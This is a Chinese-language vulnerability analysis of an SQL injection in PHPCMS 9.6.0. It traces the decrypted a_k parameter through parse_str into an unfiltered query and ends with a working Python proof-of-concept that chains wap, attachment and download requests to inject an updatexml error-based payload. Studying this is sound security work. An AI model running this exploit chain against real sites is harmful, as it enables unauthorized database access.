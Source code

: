 # phpcmsv9.6.0SQL注入

## 利用条件

1. 开启wap
2. phpcms 版本小于等于9.6.0



## 漏洞复现

漏洞信息:

> 这个版本的 **SQL注入** 主要在于程序对解密后的数据没有进行过滤. 漏洞文件: **phpcms/modules/content/down.php** 。在其 **init** 方法中，从 **GET** 数据中获取了 **a_k** 的值 ,解密后直接变量覆盖,导致命令执行

```php
public function init() {
		$a_k = trim($_GET['a_k']);
		$a_k = sys_auth($a_k, 'DECODE', pc_base::load_config('system','auth_key'));
		if(empty($a_k)) showmessage(L('illegal_parameters'));
		parse_str($a_k);
		if(isset($i)) $i = $id = intval($i);
		if(!isset($m)) showmessage(L('illegal_parameters'));
		if(!isset($modelid)||!isset($catid)) showmessage(L('illegal_parameters'));
		if(empty($f)) showmessage(L('url_invalid'));
		$allow_visitor = 1;
		$MODEL = getcache('model','commons');
		$tablename = $this->db->table_name = $this->db->db_tablepre.$MODEL[$modelid]['tablename'];
		$this->db->table_name = $tablename.'_data';
		$rs = $this->db->get_one(array('id'=>$id));	
		...
	}
```

`$this->db->get_one(array('id'=>$id));	`跟进去

```php
final public function get_one($where = '', $data = '*', $order = '', $group = '') {
		if (is_array($where)) $where = $this->sqls($where);
		return $this->db->get_one($data, $this->table_name, $where, $order, $group);
	}
```



```php
final public function sqls($where, $font = ' AND ') {
		if (is_array($where)) {
			$sql = '';
			foreach ($where as $key=>$val) {
				$sql .= $sql ? " $font `$key` = '$val' " : " `$key` = '$val'";
			}
			return $sql;
		} else {
			return $where;
		}
	}
```



```php
public function get_one($data, $table, $where = '', $order = '', $group = '') {
		$where = $where == '' ? '' : ' WHERE '.$where;
		$order = $order == '' ? '' : ' ORDER BY '.$order;
		$group = $group == '' ? '' : ' GROUP BY '.$group;
		$limit = ' LIMIT 1';
		$field = explode( ',', $data);
		array_walk($field, array($this, 'add_special_char'));
		$data = implode(',', $field);

		$sql = 'SELECT '.$data.' FROM `'.$this->config['database'].'`.`'.$table.'`'.$where.$group.$order.$limit;
		$this->execute($sql);
		$res = $this->fetch_next();
		$this->free_result();
		return $res;
	}
```



没有对解密后的id进行任何过滤

接着要找一个能用相同密钥加密的地方,这样便无需暴露auth_key就能执行恶意sql语句

我们利用` set_cookie`来生成加密数据

`setcookie($var, sys_auth($value, 'ENCODE'), $time, pc_base::load_config('system','cookie_path'), pc_base::load_config('system','cookie_domain'), $s);`

查找调用`set_cookie`且值`$value`可控的位置



`phpcms/modules/attachment/attachments.php` 文件的 `swfupload_json` 方法有满足我们需要的代码。(菜鸡直接看别人找到的)

```php
public function swfupload_json() {
		$arr['aid'] = intval($_GET['aid']);
		$arr['src'] = safe_replace(trim($_GET['src']));
		$arr['filename'] = urlencode(safe_replace($_GET['filename']));
		$json_str = json_encode($arr);
		$att_arr_exist = param::get_cookie('att_json');
		$att_arr_exist_tmp = explode('||', $att_arr_exist);
		if(is_array($att_arr_exist_tmp) && in_array($json_str, $att_arr_exist_tmp)) {
			return true;
		} else {
			$json_str = $att_arr_exist ? $att_arr_exist.'||'.$json_str : $json_str;
			param::set_cookie('att_json',$json_str);
			return true;			
		}
	}
```

`$arr['src'] = safe_replace(trim($_GET['src']));`,跟进`safe_replace`

```php
function safe_replace($string) {
	$string = str_replace('%20','',$string);
	$string = str_replace('%27','',$string);
	$string = str_replace('%2527','',$string);
	$string = str_replace('*','',$string);
	$string = str_replace('"','&quot;',$string);
	$string = str_replace("'",'',$string);
	$string = str_replace('"','',$string);
	$string = str_replace(';','',$string);
	$string = str_replace('<','&lt;',$string);
	$string = str_replace('>','&gt;',$string);
	$string = str_replace("{",'',$string);
	$string = str_replace('}','',$string);
	$string = str_replace('\\','',$string);
	return $string;
}
```

虽然这里单引号被过滤了,但是前面是用`parse_str($a_k);`来恢复变量的,我们可以利用`safe_replace`能将某些字符替换为空格用url编码来绕过黑名单

但是在调用`swfupload_json` 前,它还会调用`__construct`方法

```php
function __construct() {
		pc_base::load_app_func('global');
		$this->upload_url = pc_base::load_config('system','upload_url');
		$this->upload_path = pc_base::load_config('system','upload_path');		
		$this->imgext = array('jpg','gif','png','bmp','jpeg');
		$this->userid = $_SESSION['userid'] ? $_SESSION['userid'] : (param::get_cookie('_userid') ? param::get_cookie('_userid') : sys_auth($_POST['userid_flash'],'DECODE'));
		$this->isadmin = $this->admin_username = $_SESSION['roleid'] ? 1 : 0;
		$this->groupid = param::get_cookie('_groupid') ? param::get_cookie('_groupid') : 8;
		//判断是否登录
		if(empty($this->userid)){
			showmessage(L('please_login','','member'));
		}
	}
```

我们需要用`sys_auth($_POST['userid_flash'],'DECODE')`来生成`$this->userid`,来绕过死亡exit

这次我们还需要找一个地方来生成`userid`,但是限制更少了,只要`$this->userid`不为空即可

 我们可以搜到 `phpcms/modules/wap/index.php` 文件，在该文件中 `$_GET['siteid']` 可控，并且可以通过 **cookie** 获得加密后的数据,虽然有intval来过滤

```php
function __construct() {		
		$this->db = pc_base::load_model('content_model');
		$this->siteid = isset($_GET['siteid']) && (intval($_GET['siteid']) > 0) ? intval(trim($_GET['siteid'])) : (param::get_cookie('siteid') ? param::get_cookie('siteid') : 1);
		param::set_cookie('siteid',$this->siteid);	
		$this->wap_site = getcache('wap_site','wap');
		$this->types = getcache('wap_type','wap');
		$this->wap = $this->wap_site[$this->siteid];
		define('WAP_SITEURL', $this->wap['domain'] ? $this->wap['domain'].'index.php?' : APP_PATH.'index.php?m=wap&siteid='.$this->siteid);
		if($this->wap['status']!=1) exit(L('wap_close_status'));
	}
```

于是整个攻击链便完整了

先利用wap来获得`userid`

` http://127.0.0.1/cms/phpcms/9.6.0/index.php?m=wap&siteid=1 `

`2a8a6kid_pv1EoSGXugr-5BZDZWzDhaB7W3EtXou`

再利用attachment来获得加密的恶意sql语句

```
http://127.0.0.1/cms/phpcms/9.6.0/index.php?m=attachment&c=attachments&a=swfupload_json&src=(看poc吧)
post:
userid_flash=2a8a6kid_pv1EoSGXugr-5BZDZWzDhaB7W3EtXou
```



## 检测脚本

```python
import re
import requests
import random

def poc(url,proxies={}):
    sess=requests.session()
    sess.get("%s/index.php?m=wap&siteid=1"%url)
    sess.proxies=proxies
    pre=list(sess.cookies.get_dict())[0][:5]+"_"
    userid=sess.cookies.get_dict()[pre+"siteid"]
    param={
        "m":"attachment",
        "c":"attachments",
        "a":"swfupload_json",
        "src":"=1&id=nobodyasdfsdsf%2;7-(updatexml(1,concat(0x7e,(select%2;0user()),0x7e),1))%23&m=1&modelid=1&catid=1&f=1&ss"
    }
    sess.post("%s/index.php"%url,params=param,data={"userid_flash":userid})
    a_k=sess.cookies.get_dict()[pre+"att_json"]
    result=sess.get("%s/index.php?m=content&c=down&a=init&a_k=%s"%(url,a_k)).text
    #print(userid,a_k)
    if "XPATH syntax error" in result:
        return True
    return False
    

#,{"http":"socks5://127.0.0.1:1080"}
print(poc("http://127.0.0.1/cms/phpcms/9.6.0/"))
```





## 参考

 [https://mochazz.github.io/2019/07/18/phpcms漏洞分析合集](https://mochazz.github.io/2019/07/18/phpcms漏洞分析合集)

 